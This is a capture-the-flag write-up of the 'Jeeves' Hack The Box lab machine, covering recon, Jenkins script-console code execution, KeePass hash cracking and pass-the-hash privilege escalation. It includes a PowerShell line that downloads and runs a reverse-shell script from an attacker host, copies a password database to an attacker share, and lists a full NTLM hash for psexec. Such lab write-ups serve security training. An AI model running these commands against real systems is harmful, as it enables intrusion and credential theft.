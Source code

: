 # Jeeves Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA jeeves 10.10.10.63 -T4``

``80/tcp    open  http         Microsoft IIS httpd 10.0``

``135/tcp   open  msrpc        Microsoft Windows RPC``

``445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)``

``50000/tcp open  http         Jetty 9.4.z-SNAPSHOT``

# ${{\color{purple}Initial Foothold}}\ $

### After a long enumeration I found a directory on the port 50000 :

``gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30``

![image](https://user-images.githubusercontent.com/123066149/221349079-693bf87d-ce77-42a4-9202-9c5870f16c3b.png)

### And finally it's a jenkins server on this port :

### I made the following compromise after a long enumeration of the application :

![1](https://user-images.githubusercontent.com/123066149/221349399-6e26767c-4b25-4c35-8bb4-4c6790419b08.PNG)

![2](https://user-images.githubusercontent.com/123066149/221349403-c52a5a33-8b6b-424e-b505-3799e021f3e7.PNG)

![3](https://user-images.githubusercontent.com/123066149/221349405-39f5cdac-29cd-4fad-b038-cc229889d3db.PNG)

![4](https://user-images.githubusercontent.com/123066149/221349410-be77cc48-4028-4243-be5c-6ddf64e313ee.PNG)

# ${{\color{purple}Exploitation}}\ $

### I used a rev shell powershell to take control of the server :

``println "powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')".execute().text``

![image](https://user-images.githubusercontent.com/123066149/221349919-b08817a5-18a0-4eb7-8b91-e40a7951a69f.png)

![image](https://user-images.githubusercontent.com/123066149/221349939-b89184b9-59e7-4359-b400-dd4c66c8d1a4.png)

# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/221349980-62a6e845-6120-4764-a519-f86357e2cfe2.png)

### SMBserver on kali machine :

``/usr/bin/impacket-smbserver kali .``

![image](https://user-images.githubusercontent.com/123066149/221350050-1069ded2-46ff-4bf3-8532-6e21b7196467.png)

### mount share on windows machine :

``New-PSDrive -Name "sophie" -PSProvider "FileSystem" -Root "\\10.10.16.5\kali"``

``cd sophie:``

``cp C:\Users\kohsuke\Documents\CEH.kdbx .``

![5](https://user-images.githubusercontent.com/123066149/221350106-9358a2d7-d76f-4c1d-ade3-b3dd7849ad1d.PNG)

### Generate the hash of this file :

``keepass2john CEH.kdbx``

![image](https://user-images.githubusercontent.com/123066149/221350158-dcc7110f-8e0c-4e31-afea-ded436ef0ae5.png)

![image](https://user-images.githubusercontent.com/123066149/221350172-25786dd9-2d05-4cba-84c5-b8a39a82847f.png)

![image](https://user-images.githubusercontent.com/123066149/221350203-affa1903-fc80-47cf-bfa3-ae865ec83c7f.png)

### Finds the password with hashcat :

``hashcat -m 13400 hash.txt /usr/share/wordlists/rockyou.txt``

![image](https://user-images.githubusercontent.com/123066149/221350242-2a736320-afce-4401-a245-bd09e1496b46.png)

### Open the kdbx file with keepass :

![image](https://user-images.githubusercontent.com/123066149/221350296-925eda47-478c-48a4-a404-97f263246747.png)

### I tried the admin password but without success and with the hash of the backup account and we are admin :

``/usr/bin/impacket-psexec  administrator@10.10.10.63``

``/usr/bin/impacket-psexec  administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``

![image](https://user-images.githubusercontent.com/123066149/221350360-0b5fb083-eb17-4532-892c-511109165051.png)


### Last difficulty display the root password  :

``powershell (Get-Content hm.txt -Stream root.txt)``

![image](https://user-images.githubusercontent.com/123066149/221350462-3f880fc4-b85d-430d-a022-c93609025ea5.png)


# ${{\color{purple}Points of Improvement}}\ $

* When I'm on an application i need to try harder to find the code execution or creds.
* don't get trapped by an error message check the source code.
* When I have compromised a user make the enumeration of (Desktop + Document).
* Create a specific directory for the commands that will allow you to make files transfers
* Find the command to list hash formats on hashcat
* Use several pth tools ( psexec pthwinexec )
